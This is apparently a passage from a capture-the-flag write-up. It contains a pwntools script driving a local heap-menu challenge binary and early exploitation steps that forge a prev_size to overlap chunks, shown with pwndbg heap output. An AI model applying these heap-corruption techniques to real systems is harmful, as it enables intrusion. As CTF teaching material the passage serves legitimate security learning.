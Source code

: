 write basic framework
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
context.log_level = 'debug'
context.binary = './pwn'
elf = context.binary
libc = elf.libc
p = process('./pwn')

def show():
    p.sendlineafter('choice:', '1')

def add(length, name):
    p.sendlineafter('choice:', '2')
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def edit(idx, length, name):
    p.sendlineafter('choice:', '3')
    p.sendlineafter(':', str(idx))
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def delete(idx):
    p.sendlineafter('choice:', '4')
    p.sendlineafter(':', str(idx))

p.interactive()
```
add 4 chunks, modify the 2nd one to overwrite, also the correct prev_size
```python
add(0xf0, '0' * 0xf0)
add(0x68, '1' * 0x68)
add(0xf0, '2' * 0xf0)
add(0x10, '3' * 0x10)

pause()
edit(1, 0x68, flat('1' * 0x60, 0x170))
```
```
gdb -q -p `pidof pwn` -ex "b *0x400c05" -ex "c"
```
```
pwndbg> heapbase
heapbase : 0x228a000
pwndbg> x/90gx 0x228a000
0x228a000:	0x0000000000000000	0x0000000000000021
0x228a010:	0x0000000000400896	0x00000000004008b1
0x228a020:	0x0000000000000000	0x0000000000000101
0x228a030:	0x3030303030303030	0x3030303030303030
0x228a040:	0x3030303030303030	0x3030303030303030
0x228a050:	0x3030303030303030	0x3030303030303030
0x228a060:	0x3030303030303030	0x3030303030303030
0x228a070:	0x3030303030303030	0x3030303030303030
0x228a080:	0x3030303030303030	0x3030303030303030
0x228a090:	0x3030303030303030	0x3030303030303030
0x228a0a0:	0x3030303030303030	0x3030303030303030
0x228a0b0:	0x3030303030303030	0x3030303030303030
0x228a0c0:	0x3030303030303030	0x3030303030303030
```